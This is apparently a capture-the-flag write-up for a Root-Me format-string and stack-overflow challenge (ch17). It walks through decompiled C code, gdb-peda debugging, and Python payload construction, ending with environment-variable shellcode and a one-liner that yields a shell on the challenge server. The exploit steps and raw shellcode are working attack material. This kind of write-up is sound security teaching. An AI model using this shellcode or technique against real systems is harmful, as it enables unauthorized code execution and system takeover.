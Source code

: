### S0lv3d by H4yicl3

First i download binary file with my scp-script
```
#!/bin/sh
echo "password = app-systeme-$1"
scp -P2222 app-systeme-$1@challenge02.root-me.org:./$1 ./

then ./scp [name_of_challenge]
```
I use IDA to analysis the code .
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  signed int v4; // [sp+1Ch] [bp-418h]@1
  int username; // [sp+20h] [bp-414h]@1     
  int buf1; // [sp+2Ch] [bp-408h]@2
  int buf2; // [sp+22Ch] [bp-208h]@2               #try to overflow buf2 to control the return address
  const char *v8; // [sp+42Ch] [bp-8h]@1

  v8 = "root-me";
  printf("Username: ");
  fgets((char *)&username, 12, stdin);
  v4 = -1;
  *((_BYTE *)&username + strlen((const char *)&username) - 1) = 0;
  if ( !strcmp((const char *)&username, v8) )	 //if username not equal "root-me" excute copy buf1 and buf2 
  {
    printf("Hello %s ! How are you ?\n", &username);
  }
  else
  {
    //sprintf make u input formated data to string
    sprintf((char *)&buf1, "ERR Wrong user: %400s", &username);	//input formated data from username to buf1
    sprintf((char *)&buf2, (const char *)&buf1);   //input formated data buf1 to buf2 try overflow here
    printf("Bad username: %s\n", &username);
  }
  return 0;
}
```
How sprintf work !! see more detail here :http://www.cplusplus.com/reference/cstdio/sprintf/

every thing we need is here
>Composes a string with the same text that would be printed if format was used on printf, but instead of being printed, the content is stored as a C string in the buffer pointed by str.

so we want to overflow buf1 we need input formated data like (%s ,%d ...)
then buf2 will copy buf1 !!
so we can count and input how we can overflow the return address !!

Do you get the idea ? try understand that then go!

so we use gdb-peda to find return address
```
gdp-peda$ pdis main
0x0804849b <+7>:     sub    esp,0x430
we break heere
gdp-peda$ b *main+7
gdp-peda$ r
gdp-peda$ x/2wx $ebp
0xffffd6a8:     0x00000000      0xf7e2aaf3  <-- return address value
```
the address of 0xf7e2aaf3(Return address) is 0xffffd6ac !! you know ?
we have return address try to overflow this we my script
```python
padding = "%121d"
padding +="AAAA"

print padding
```
we overflow the return now
try to use strace to check that
```
python ch17.py |strace ./ch17
i got this
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
+++ killed by SIGSEGV (core dumped) +++
```
this mean i controled the return address !!

finally where we want to write
This progam not turn on any flag
```
gdp-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```
so we can use shellcode in stack ,under the environtment variable
and we can redirect to system("/bin/sh")
now i choose redirect to system("/bin/sh")

```
gdb-peda$ p &system
$1 = (<text variable, no debug info> *) 0xf7e51310 <system>
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f7184c ("/bin/sh")
gdb-peda$ 
```
so the script i make look like
```
padding ="%.121d"

system="\x10\x13\xe5\xf7"
retn_after="AAAA"
binsh="\x4c\x18\xf7\xf7"
print padding + system + retn_after + binsh
```
i try to run but it not work ? what!! 
i try to debug and i find that !! 
i change my python script look like
```
padding ="A"*121
system="\x10\x13\xe5\xf7"
retn_after="AAAA"
binsh="\x4c\x18\xf7\xf7"
print padding + system + retn_after + binsh
```
```
0xffffd610:     0x20202020      0x20202020      0x20202020      0x20202020
0xffffd620:     0x20202020      0x20202020      0x20202020      0x20202020
0xffffd630:     0x41412020      0x41414141      0x41414141      0x08048200
0xffffd640:     0xf7ffd938      0x00000000      0x000000c2      0xf7ea6376
```
the return address is 0xffffd6ac
but i just overflow 121 char "A" but i just add 12 char "A" in stack and i even can't control the return address !!
we continue
i change my our script look like
```
padding ="%121d"
system="\x10\x13\xe5\xf7"
retn_after="AAAA"
binsh="\x4c\x18\xf7\xf7"
print padding + "A"*12
```
run this
```
0xffffd680:     0x20202020      0x20202020      0x20202020      0x20202020
0xffffd690:     0x20202020      0x20202020      0x20202020      0x20202020
0xffffd6a0:     0x20202020      0x31312d20      0x41323336      0x41414141
0xffffd6b0:     0x00000000      0xffffd744      0xffffd74c      0xf7feacca
```
i got it !!
but that mean i just control 4 byte at return address !! be cause 8 byte before is (%121d) i mean ok gone !!

All we have is 4 byte !! so we just return to stack with shellcode!

use getenv function http://pastebin.com/LZM64WGL
 and  shellcode here
```
export hayicle=$(python -c 'print "\x90"*4+"\x31\xc0\x31\xdb\x31\xc9\xb0\x17\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"')
```
run this
```
./getenv hayicle ch17
hayicle will be at 0xffffd8bb
```
so we change the python script
```
(python -c 'print "%121d"+"\xbb\xd8\xff\xff"';cat)|./ch17

```
the result is
```
(python -c 'print "%121d"+"\xbb\xd8\xff\xff"';cat)|./ch17
Username: Bad username: %121d����
whoami
hayicle
```

we controled the shell !! GLHF !!
the script i run in sever
```
(python -c 'print "%121d"+"\xe6\xfd\xff\xbf"';cat)|./ch17
```
